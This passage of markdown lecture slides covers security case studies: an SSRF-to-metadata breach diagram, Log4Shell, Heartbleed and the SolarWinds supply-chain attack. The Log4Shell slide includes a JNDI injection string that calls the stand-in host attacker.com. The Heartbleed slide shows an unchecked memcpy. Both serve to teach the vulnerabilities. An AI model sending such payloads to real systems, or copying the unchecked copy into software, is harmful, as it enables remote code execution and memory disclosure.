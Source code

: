 ```mermaid
flowchart TD
   Misconfig[☁️ WAF Misconfig] --> SSRF[🛑 SSRF Attack]
   SSRF --> Metadata[📡 AWS Metadata Service]
   Metadata --> Data[🔥 100M Records Stolen]
```

---

## 📍 Slide 41 – 🐍 Case Study: Log4Shell (2021)

* 🐍 **Log4j** → widely used Java logging library.
* 📅 **Dec 2021**: discovered **CVE-2021-44228 (“Log4Shell”)**.
* 💉 Vulnerability type: **Remote Code Execution (RCE)** via JNDI lookup.
* 📉 Impact: millions of apps worldwide were exploitable.
* 🔑 Example: attacker sends malicious string → server executes attacker’s code.
* 🔗 Reference: [Apache Log4j Security](https://logging.apache.org/log4j/2.x/security.html).

```java
// ❌ Vulnerable Log4j logging call
logger.error("${jndi:ldap://attacker.com/exploit}");

// ✅ Fixed: disable JNDI lookups, update Log4j version >= 2.17.1
```

---

## 📍 Slide 42 – 💳 Case Study: Heartbleed (2014)

* 💳 **Heartbleed** → bug in **OpenSSL cryptographic library**.
* 📅 Discovered in **2014** (CVE-2014-0160).
* 🔑 Vulnerability type: **Buffer Over-read** → attacker could read server memory.
* 📉 Impact: passwords, session cookies, even private keys leaked.
* 🧩 Famous demo: extracting login credentials from Yahoo servers.
* 🔗 Reference: [Heartbleed.com](https://heartbleed.com/).

```c
/* ❌ Vulnerable OpenSSL heartbeat extension */
memcpy(buffer, payload, payload_length);  
// No bounds check → attacker requests more bytes than provided
```

---

## 📍 Slide 43 – 📡 Case Study: SolarWinds (2020)

* 📡 **SolarWinds Orion** → IT monitoring software.
* 📅 **2020 supply chain attack**: attackers inserted malicious code into software updates.
* 🔑 Vulnerability: **Software Integrity Failure** (supply chain).
* 📉 Impact: >18,000 customers downloaded compromised updates (including US government agencies).
* 💰 Estimated damages: billions, long-term espionage impact.
* 🔗 Reference: [SolarWinds SEC Report](https://www.sec.gov/news/press-release/2023-139).

```mermaid
flowchart TD
   Attacker[😈 Attacker] --> BuildSys[⚙️ SolarWinds Build System]
   BuildSys --> MalUpdate[📦 Malicious Software Update]
   MalUpdate --> Clients[🌍 18,000 Clients Infected]
```

---